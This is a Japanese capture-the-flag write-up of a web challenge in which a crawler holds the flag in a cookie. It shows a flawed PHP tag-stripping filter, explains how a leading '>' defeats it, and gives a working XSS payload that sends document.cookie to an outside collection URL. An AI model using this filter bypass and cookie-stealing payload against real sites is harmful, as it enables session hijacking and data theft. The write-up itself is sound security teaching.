






# Your name (500pt 0solves)

君の、名前はーー

(url)

## 配布ファイル

[distfiles](../distfiles)

## ヒント

WAFにバグがあるらしいです。

## writeup

アクセスすると以下のようなかんじ。



訴えないでほしい。

上の欄に名前を入れると、AAで表示される。(3文字だと丁度よく手になる)



`<s>sss</s>`を入れてみると、タグが微妙に消されてる。



下の欄に名前を入力すると、クローラがアクセスする。

```php
file_get_contents($_ENV["NODE"] . '?name=' . myUrlEncode($_POST["name"]));
```

```javascript
router.get('/', async function (req, res, next) {
  :
        const cookies = JSON.parse(fs.readFileSync('cookies.json', 'utf-8'));
        for (let cookie of cookies) {
            await page.setCookie(cookie);
        }
        const url = host + "?name=" + name

        page.goto(url).then(() => {
            res.header('Access-Control-Allow-Origin', '*');
            res.send('これじゃ、名前わかんないよ・・・');
        }).catch((err) => {
            res.header('Access-Control-Allow-Origin', '*');
            res.send('something went wrong');
        });
  :
```

```json
[
    {
        "name":"flag",
        "value": "flag{***CENSORED***}",
        "domain": "php",
        "path": "/"
    }
]
```

クローラのCookieにflagがある。

提出すると、以下のようなかんじ。



セリフを無理やり引用したので、なんかエラーっぽい文章になってしまいました。ややこしくてごめんなさい  
(ソース読めばエラーじゃないことがわかるので許してください。)

index.phpを読むと、WAFがある。

```php
<?php
// いたずらする人が多いので、WAFを導入しました。
if (isset($_GET["name"])) {
    $name = $_GET["name"];
    $isTag = 0;
    for ($i = 0; $i < strlen($name); $i++) {
        if ($name[$i] == "<") {
            $isTag++;
        }
        if ($name[$i] == ">") {
            $isTag--;
        }
        if ($isTag > 0) {
            continue;
        }
        $msg .= $name[$i];
    }
}
```

`isTag`が`<`でインクリメントされ、`>`でデクリメントされる。`isTag`が1以上の時、文字を読み飛ばす。

WAFを回避してXSSすればCookieを盗めそうだ。

`><s>sss</s>`で提出すると、HTMLが反映される。



この要領でCookieを盗む。

`><script>document.location="[url]?"+document.cookie</script>`を提出すると、サーバにアクセスがくる。(自分はサーバに<https://webhook.site/>を使用しています)



フォーマットをよしなにしたらflag。`flag{xss_c4n_st34l_c00k13s}`
